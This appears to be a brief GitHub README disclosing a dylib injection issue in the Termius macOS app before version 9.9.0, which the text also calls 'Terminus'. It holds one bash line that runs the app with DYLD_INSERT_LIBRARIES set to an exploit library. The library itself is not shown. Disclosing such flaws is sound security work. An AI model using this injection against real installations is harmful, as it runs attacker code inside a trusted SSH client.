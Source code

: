 # Termius-Command-injection
Termius App MacOS dylib Command injection

Terminus before 9.9.0 

using dylib
```bash
DYLD_INSERT_LIBRARIES=exploit_combined.dylib /Applications/Termius.app/Contents/MacOS/Termius
```
